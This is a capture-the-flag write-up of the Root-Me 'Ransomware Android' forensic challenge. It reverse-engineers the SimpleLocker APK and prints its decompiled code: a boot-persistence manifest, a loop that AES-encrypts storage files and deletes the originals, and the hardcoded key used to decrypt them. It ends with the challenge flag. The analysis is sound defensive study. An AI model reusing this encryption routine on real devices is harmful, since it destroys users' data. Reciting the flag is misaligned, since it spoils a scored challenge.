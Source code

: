 # Ransomware Android
https://www.root-me.org/en/Challenges/Forensic/Ransomware-Android
```
The CISO Android tablet has been compromised by a ransomware, his confidential documents were encrypted. It is, of course, no question for us to pay the ransom, we would lose all our credibility. 
You have a part dump of his tablet and must restore these documents.
```

As the description mentioned, the ZIP file contains a dump of an Android file-system.<br>
In the _/app/_ directory there is only 1 APK (org.simplelocker-1.apk), in the _/app-lib/_ directory there is only 1 sub-directory (org.simplelocker-1) with 4 libraries (libobfsproxy.so, libprivoxy.so, libtor.so and libxtables.so), and the _/app-asec/_ and the _/app-private/_ are empty.<br>
The libraries' names are pretty suspicious. So identifing **org.simplelocker-1.apk** as the ransomeware is a pretty good guess.<br>
In this challenge, one or more documents had been encrypted. After a quick search, it seems like the only (important) file that suppose to be recovered is _/media/Documents/Confidentiel.jpg.enc_.<br><br>

After decompile the APK, the following AndroidManifest.xml was found:
```xml
<?xml version="1.0" encoding="utf-8" standalone="no"?><manifest xmlns:android="http://schemas.android.com/apk/res/android" android:installLocation="auto" package="org.simplelocker">
    <uses-permission android:name="android.permission.INTERNET"/>
    <uses-permission android:name="android.permission.ACCESS_NETWORK_STATE"/>
    <uses-permission android:name="android.permission.READ_PHONE_STATE"/>
    <uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>
    <uses-permission android:name="android.permission.WAKE_LOCK"/>
    <uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"/>
    <uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
    <application android:allowBackup="false" android:debuggable="true" android:label="@string/app_name">
        <activity android:launchMode="singleTop" android:name=".Main" android:theme="@style/AppTheme">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <receiver android:enabled="true" android:exported="true" android:name=".ServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.BOOT_COMPLETED"/>
            </intent-filter>
        </receiver>
        <receiver android:enabled="true" android:exported="true" android:name=".SDCardServiceStarter">
            <intent-filter>
                <action android:name="android.intent.action.ACTION_EXTERNAL_APPLICATIONS_AVAILABLE"/>
            </intent-filter>
        </receiver>
        <service android:name=".MainService"/>
        <service android:enabled="true" android:exported="false" android:name="org.torproject.android.service.TorService">
            <intent-filter>
                <action android:name="org.torproject.android.service.ITorService"/>
                <action android:name="org.torproject.android.service.TOR_SERVICE"/>
            </intent-filter>
        </service>
    </application>
</manifest>
```

According to the manifest, there are 4 enabled services and 1 activity:
<ol>
  <li><b>.Main</b> activity, which is the application's launcher.</li>
  <li><b>.ServiceStarter</b>, which recieves an intent when the boot is completed (probably for starting).</li>
  <li><b>.SDCardServiceStarter</b>, which recieves the intent <i>ACTION_EXTERNAL_APPLICATIONS_AVAILABLE</i> which getting broadcast soon after the boot is completed (probably for starting the service).</li>
  <li><b>.MainService</b>.</li>
  <li><b>org.torproject.android.service.TorService</b>, which recieves intents from a TOR service.</li>
</ol><br>

The <b>.Main</b> activity seems to display something (not important), and it sends an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>.<br>
The <b>.ServiceStarter</b> and the <b>.SDCardServiceStarter</b> services are pretty much the same - both send an intent (com.locker.MainServiceStart) to start the <b>.MainService</b>. Probably in order to keep the persistence of the ransomware after a reboot.<br>
The <b>org.torproject.android.service.TorService</b> is a known library. As the name implies, the service is used to communicate with a remote entity (in this APK the entity is 127.0.0.1:9050).<br><br>

So that leaves the <b>.MainService</b>.<br>
This service does bunch of stuff - communicate with a remote entity using TOR proxy, sets a _WakeLock_, schedule tasks and more. Because the APK is a ransomware, and because the challenge is to find an encrypted password, the following class seems interesting:<br>
```java
class C01165 implements Runnable {
    C01165() {
    }

    public void run() {
        try {
            new FilesEncryptor(MainService.this.context).encrypt();
        } catch (Exception e) {
            Log.d(Constants.DEBUG_TAG, "Error: " + e.getMessage());
        }
    }
}
```
A new object is initiated (FilesEncryptor) with the current context and the **encrypt** function is call.<br>
This is the **encrypt** function in the FilesEncryptor class:
```java
public void encrypt() throws Exception {
    if (!this.settings.getBoolean(Constants.FILES_WAS_ENCRYPTED, false) && isExternalStorageWritable()) {
        AesCrypt aes = new AesCrypt(Constants.CIPHER_PASSWORD);
        Iterator it = this.filesToEncrypt.iterator();
        while (it.hasNext()) {
            String fileName = (String) it.next();
            aes.encrypt(fileName, new StringBuilder(String.valueOf(fileName)).append(".enc").toString());
            new File(fileName).delete();
        }
        Utils.putBooleanValue(this.settings, Constants.FILES_WAS_ENCRYPTED, true);
    }
}
```
It's pretty easy to understand what's up.<br>
First, the function checks if the files are already encrypted (in order to not encrypt it twice) and if it's possible to change the data in the external storage.<br>
Then, an AES encryption instance is created (**AesCrypt**) with a key that presents in the **Constants** class.<br>
Afterward, it will iterate the files in the external storage and call the _encrypt_ function of the initiated **AesCrypt** object, and will delete the original file.<br>
Lastly, it will sets a boolean variable to ```true```, so the files won't get encrypted twice.<br><br>

According to the **Constants** class:
```java
...snip...
public static final String CIPHER_PASSWORD = "mcsTnTld1dDn";
...snip...
```
So the key is now known, let's see what's up at the **AesCrypt** class:
```java
...snip...
public AesCrypt(String password) throws Exception {
    MessageDigest digest = MessageDigest.getInstance("SHA-256");
    digest.update(password.getBytes(HTTP.UTF_8));
    byte[] keyBytes = new byte[32];
    System.arraycopy(digest.digest(), 0, keyBytes, 0, keyBytes.length);
    this.key = new SecretKeySpec(keyBytes, "AES");
    this.spec = getIV();
}

public AlgorithmParameterSpec getIV() {
    return new IvParameterSpec(new byte[16]);
}
    
public void encrypt(String rawFile, String encryptedFile) throws Exception {
    FileInputStream fis = new FileInputStream(rawFile);
    FileOutputStream fos = new FileOutputStream(encryptedFile);
    this.cipher.init(1, this.key, this.spec);
    CipherOutputStream cos = new CipherOutputStream(fos, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = fis.read(d);
        if (b == -1) {
            cos.flush();
            cos.close();
            fis.close();
            return;
        }
        cos.write(d, 0, b);
    }
}

public void decrypt(String encryptedFile, String rawFile) throws Exception {
    FileInputStream fis = new FileInputStream(encryptedFile);
    FileOutputStream fos = new FileOutputStream(rawFile);
    this.cipher.init(2, this.key, this.spec);
    CipherInputStream cis = new CipherInputStream(fis, this.cipher);
    byte[] d = new byte[8];
    while (true) {
        int b = cis.read(d);
        if (b == -1) {
            fos.flush();
            fos.close();
            cis.close();
            return;
        }
        fos.write(d, 0, b);
    }
}
```
Let's break it down a bit.<br>
First, in the constructor of the class a IV (which is an 16 zeros according to **getIV**) and akey generated from the given password (which we know already). The password seems to be a SHA-256 of the "mcsTnTld1dDn" - which is **d49af309a4c69382ff07bc6f83ba4c2595a7f086d3e5b69e119e2337cb75172d**.<br><br>

After we got the key and IV, we can decrypt the file. Fortunately, the **decrypt** function exists.<br>
So after copying the class to a new Java project, creating an instance (with "mcsTnTld1dDn") and running the **decrypt** function, it seems like an image was created.

In the end, the flag is **BullShitR4ns0mW4re**. Cool challenge which worths 35 points.
